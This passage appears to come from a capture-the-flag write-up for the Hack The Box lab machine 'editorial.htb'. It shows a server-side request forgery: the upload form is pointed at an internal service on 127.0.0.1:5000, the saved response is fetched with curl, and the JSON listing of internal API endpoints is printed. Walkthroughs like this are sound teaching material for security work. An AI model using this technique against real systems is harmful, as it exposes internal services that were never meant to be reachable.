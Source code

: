 From this, we can see that port 5000 yields a unique response. This means that some service is running internally on the target, on port 5000.

If we submit the POST request using the link `http://127.0.0.1:5000`, we get a response with this path:

`/static/uploads/8509c306-acfa-4aa8-bbff-57dcf096b642`

From our attack host, we can cURL this file:

`curl http://editorial.htb/static/uploads/8509c306-acfa-4aa8-bbff-57dcf096b642`

If we `cat` the file contents and pipe it into `jq`:

```
{
  "messages": [
    {
      "promotions": {
        "description": "Retrieve a list of all the promotions in our library.",
        "endpoint": "/api/latest/metadata/messages/promos",
        "methods": "GET"
      }
    },
    {
      "coupons": {
        "description": "Retrieve the list of coupons to use in our library.",
        "endpoint": "/api/latest/metadata/messages/coupons",
        "methods": "GET"
      }
    },
    {
      "new_authors": {
        "description": "Retrieve the welcome message sended to our new authors.",
        "endpoint": "/api/latest/metadata/messages/authors",
        "methods": "GET"
      }
    },
    {
      "platform_use": {
        "description": "Retrieve examples of how to use the platform.",
        "endpoint": "/api/latest/metadata/messages/how_to_use_platform",
        "methods": "GET"
      }
    }
  ],
  "version": [
    {
      "changelog": {
        "description": "Retrieve a list of all the versions and updates of the api.",
        "endpoint": "/api/latest/metadata/changelog",
        "methods": "GET"
      }
    },
    {
      "latest": {
        "description": "Retrieve the last version of api.",
        "endpoint": "/api/latest/metadata",
        "methods": "GET"
      }
    }
  ]
}
```
